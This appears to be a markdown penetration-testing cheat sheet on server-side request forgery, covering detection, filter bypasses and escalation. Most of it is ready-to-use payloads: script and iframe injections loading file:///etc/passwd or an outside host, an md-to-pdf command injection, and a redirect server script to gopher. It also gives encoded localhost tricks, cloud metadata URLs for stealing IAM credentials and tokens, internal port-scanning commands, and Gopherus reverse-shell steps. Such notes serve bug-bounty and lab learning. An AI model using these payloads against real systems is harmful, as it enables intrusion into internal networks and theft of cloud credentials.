


# Detection
- Find features that require visiting and fetching external resources:
  - Add a new webhook
  - File upload via URLs
  - Link expansions (URL shortened) or thumbnails
  - Proxy services 
  - Document and image processors
    - PDF generators, HTML and message boxes which turns into something else.
      ```html
      "name":"test<script>document.write('hi')</script>",
      
      <iframe src="http://cvefix.ir:8080">
      "name":"test<script>document.write(atob('PGlmcmFtZSBzcmM9Imh0dHA6Ly9jdmVmaXguaXI6ODA4MCI+'))</script>",

      <iframe src="file:///etc/passwd">
      "name":"test<script>document.write(atob('PGlmcmFtZSBzcmM9ImZpbGU6Ly8vZXRjL3Bhc3N3ZCI+'))</script>",
      ```
    - Exploit on md to pdf library with javascript engine
      ```bash
      ---js
      {
          css: `body::before { content: "${require('child_process').execSync('cat /flag.txt')}"; display: block }`,
      }
      ---
      # or
      ---js
      {
          css: `body::before { content: "${require('fs').readFileSync('/flag.txt')}"; display: block }`,
      }
      ---
      ```
    - Upload SVG (change image content-type to `image/svg+xml` in Burp interceptor)
      ```svg
      <svg width="200" height="200"
        xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.0rg/1999/xlink">
        <image xlink:href="https://example.com/image.jpg" height="200" width="200"/>
      </svg>
      ```
- Find endpoint that processes a user-provided URL:
  - URLs embedded in files that are processed by the application (XML files and PDF files can often be used to trigger SSRFs)
  - hidden API endpoints that accept URLs as input
  - input that gets inserted into HTML tags
- Fuzz everywhere (parameter, body and headers) with 
  - Burp `Colaborator everywhere`. (It`s very noisy, not recommended)
  - We can use **auto-repeater** extension with our VPS address.
  - Also in request header for OOB
    ```bash
    GET /product?productId=1 HTTP/2
    (POST request body)
    Referer: https://cvefix.ir
    ```
- Check internal URLs with/without `http`. ([Reserved IPs](https://en.wikipedia.org/wiki/Reserved_IP_addresses))
  ```bash
  localhost
  127.0.0.1
  0.0.0.0
  192.168.0.1
  10.0.0.1
  ```
- Check if the server returns a response that reveals any information about the internal service. Also look for the time difference between responses.
  - Automate this process with [SSRFmap](https://github.com/swisskyrepo/SSRFmap/).

# Bypass
### Whitelist
- Find an **Open Redirect** in another domains/subdomains that is whitlised for SSRF checker function:
  - Endpoint that make internal request, but has allowlist-based filter:
    ```bash
    POST /product/stock HTTP/2
    (POST request body)
    stockApi=/product/stock/check?productId=2&storeId=
    ```
  - Endpoint with Open redirect:
    ```bash
    GET /product/nextProduct?path=http://192.168.0.12:8080/admin HTTP/2
    ```
  - Exploit:
    ```bash
    POST /product/stock HTTP/2
    (POST request body)
    stockApi=/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
    ```
- Modify URL structure
  ```bash
  url=https://localhost/pics.target.tld                                        # Check end with: directory
  url=http://target.tld.localhost:8000/                                        # Check start with
  url=http://localhost:8000/?url=https://target.tld/                           # Check end with: parameter
  url=https://target.tld@127.0.0.1                                             # Credential (@ = %40)
  url=http://localhost%23https://target.tld/                                   # Fragment (# = %23 = %2523)
  url=http://localhost%2523@stock.target.tld/admin/delete?username=carlos      # Combination of # and @
  ```
- Inconsistency between checker function and request sending function.
  ```bash
  curl https://user@evil.com@target.tld/
  ```

### Blacklist
- Encoding
  - hex encoding: `https://public.example.com/proxy?url=https://0x7f.0x0.0x0.0x1`
  - octal encoding: `https://public.example.com/proxy?url=https://0177.0.0.01`
  - dword encoding: `https://public.example.com/proxy?url=https://2130706433`
  - URL encoding: `https://public.example.com/proxy?url=https://%6c%6f%63%61%6c%68%6f%73%74` and also Double URL-encoding.
  - mixed encoding: `0177.0.0.0x1`
  - General speaking, encoding may bypass blacklist filtering. (`admin`  =>  `Admin` or `%2561dmin`)
- Redirect (`301`) from attacker server to `127.0.0.1`.
  ```html
  url=https://cvefix.ir/redirect.php
  ```
  ```php
  <?php header("location: http://127.0.0.1"); ?>
  ```
  ```php
  <?php header('Location: http://169.254.169.254/latest/meta-data/', TRUE, 303); ?>
  ```
  ```html
  <meta http-equiv="refresh" content="0; URL=http://127.0.0.1/flag" />
  ```
- Using Alternatives
  ```bash
  # 127.0.0.1
  127.1
  0x7F000001
  0.0.0.0.
  2130706433
  localtest.me
  localhost.localdomain          # This subdomain exists in /etc/hosts file of Amazon EC2
  my.computer
  ip6-localhost                  # exist by default in /etc/host
  0
  [::1]                          # IPv6
  [::]
  fc00::                         # is the first address on the private network.
  [0:0:0:0:0:ffff:127.0.0.1]
  
  # 169.254.169.254
  http://[::ffff:a9fe:a9fe]/latest/meta-data        # "::ffff:" prefix indicates that the address is an IPv4-mapped IPv6 address
  http://①⑥⑨.②⑤④.①⑥⑨.②⑤④/latest/meta-data
  ```
- Set `127.0.0.1` for `https://local.cvefix.ir` subdomain in *https://nic.ir*.
  ```bash
  https://target.tld/proxy?url=https://local.cvefix.ir
  http://aws-ssrf.icollab.info/latest/meta-data/                # aws-ssrf.icollab.info  →  169.254.169.254
  ```
- DNS Rebinding
  - If the checker function resolves the domain, we can bypass it by DNS Rebinding, that change the resolved IP after 3 seconds.
  - https://lock.cmpxchg8b.com/rebinder.html
  
- Try redirect bypass method to take advantage of variuos schemes.
  - We should redirect victim to attacker server, then redirect it to another scheme like `gopher` 
  
  
  ```bash
  python3 302redirect.py 8080 "gopher://mycollaboratorurl/"
  curl -I "https://r.icollab.info/r.php?r=gopher://localhost"
  ```
  ```python
  #!/usr/bin/env python3

  import sys
  from http.server import HTTPServer, BaseHTTPRequestHandler

  if len(sys.argv)-1 != 2:
      print ("""
  Usage: {} <port_number> <url>
      """.format(sys.argv[0]))
      sys.exit()
  
  class Redirect(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(302)
          self.send_header('Location', sys.argv[2])
          self.end_headers()
      def send_error(self, code, message=None):
          self.send_response(302)
          self.send_header('Location', sys.argv[2])
          self.end_headers()
  HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
  ```

# Escalate
- Fuzz to interacting with internal REST APIs.
- Disclosing the origin IP behind CDN by force target.tld to send a request to cvefix.ir. (*Informative = No money*)
- Reading internal files
  ```bash
  url=file:///etc/passwd
  url=/etc/passwd
  ```
- Check for useful scheme like Gpher, doct, ...
  ```html
  dic://127.0.0.1
  gopher://127.0.0.1            # gopher://IP:PORT/_[URL_encoded_packet]
  ``` 
- Perform Network Scanning for Hosts (IPs) and Ports, and search for MySQL, Redis, ... (*Minimum impact*)
  ```bash
  POST /product/stock HTTP/2
  (POST request body)
  stockApi=http://192.168.0.§1§:8080/admin/
  ```
  ```bash
  http://77.238.121.150:29171/page/?url=http://localhost:§8000§/admin-console
  ```
  ```bash
  ffuf -w wordlist -u https://interactivemap.redacted.com/pdf.axd?url=https://127.0.0.1:FUZZ
  ```
- Pull instance metadata if website is hosted on any cloud service. ([All payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery))
  - EC2
    ```bash
    url=http://169.254.169.254/latest/meta-data/
    url=http://169.254.169.254/latest/meta-data/local-hostname/  
    url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME 
    url=http://169.254.169.254/latest/dynamic/instance-identity/document/
    url=http://169.254.169.254/latest/user-data/
    ```
  - Google Cloud
    ```bash
    http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
    http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys 
    ``` 
- In Blind SSRFs, Scan network/port using:
  - HTTP Status Codes
  - Server Response Times: Short response times may also indicate an unrouted address, because the router might have dropped the request immediately. 
- Attack the Network
  - bypass access controls, leak confidential information, and execute code.
    - If you found admin credentials that give you write privileges, try uploading a shell to the web server.
    - If you found an unsecured admin panel, see if any features allow the execution of scripts.
  - Execute internal API calls through the SSRF endpoint
    - Sometimes we need to double URL-encode sensitive words like `admin` 
    ```bash
    POST /product/stock HTTP/2
    (POST request body)
    stockApi=http://localhost/admin/delete?username=carlos
    ```
  - Disclosing the origin IP behind CDN
- Try to fuzz Subdomains and IPs
  ```bash
  ffuf -w subdomains -u https://sub.domain.tld/page.ext?SSRFPARAM=https://FUZZ.domain.tld/
  ffuf -v -w subdomains -u https://sub.domain.tld/page.ext?SSRFPARAM=http://FUZZ.domain.tld/
  ffuf -w subdomains -u https://sub.domain.tld/page.ext?SSRFPARAM=https://FUZZ
  ffuf -w subdomains -u https://sub.domain.tld/page.ext?SSRFPARAM=http://FUZZ
  ```
- Fuzz to find something (DNS Brute-force with internal Name-Server)
  ```bash
  ffuf -w wordlist -u https://sub.domain.tld/page.ext?SSRFPARAM=https://FUZZ.domain.tld/
  ```
- Try to open forbidden URLs (403)

# Gopherus
- Get Reverse-Shell, when the target support `Gopher` schema.
  ```bash
  gopherus.py --exploit redis  # Run with python2
  ```

# Attacking secondary contexts
- **SSRF:** Client  →  URL  →  Server  →  Curl  →  Server
- **Attacking secondary contexts:** Client  →  a part of URL  →  Server  →  Curl  →  Server
- Find Endpoint (Not static-resource) by add `a` in each part of URL
  - http://77.238.121.150:55559/**a**proxy/internal_website/public_note  →  `404 Not Found`
  - http://77.238.121.150:55559/proxy/**a**internal_website/public_note  →  `404 Not Found`
  - http://77.238.121.150:55559/proxy/internal_website/**a**public_note  →  `200 OK`
- use `/../` or `/..%2f` to go back one directory.
  ```html
  http://77.238.121.150:55559/proxy/internal_website/..%2fprivate_n0t3%2fprivate_note
  ```

# Tip
- Remoe server-side cache in BurpSuite by selecting `If-Modifed-Since` & `If-None-Match` in: *Proxy > Match and replace rules*.
- There is a difference between Open Redirect and SSRF in the browser address bar, after click on the time.ir link and redirection:
  - **Open Redirect:** https://time.ir
  - **SSRF:** http://77.238.121.150:29171/page/?url=https://time.ir

# Resource
- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery
